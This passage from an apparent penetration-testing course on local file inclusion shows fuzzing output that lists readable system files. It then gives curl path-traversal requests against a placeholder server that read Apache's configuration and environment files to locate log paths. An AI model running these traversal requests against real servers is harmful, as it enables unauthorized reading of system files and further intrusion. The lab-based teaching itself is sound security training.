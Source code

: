 ```bash
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```
As we can see, the scan returned over ``60`` results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist. 

Now, we can try reading any of these files to see whether we can get their content. We will read "`/etc/apache2/apache2.conf`", as it is a known path for the **Apache** server configuration:
```bash
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```
As we can see, we do get the default **Webroot** path and the **log** path. 

However, in this case, the **log** path is using a global **Apache** variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is ("`/etc/apache2/envvars`"), and we can read it to find the variable values:
```bash
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```
As we can see, the "`APACHE_LOG_DIR`" variable is set to "`/var/log/apache2`", and the previous configuration told us that the log files are "`/access.log`" and "`/error.log`".
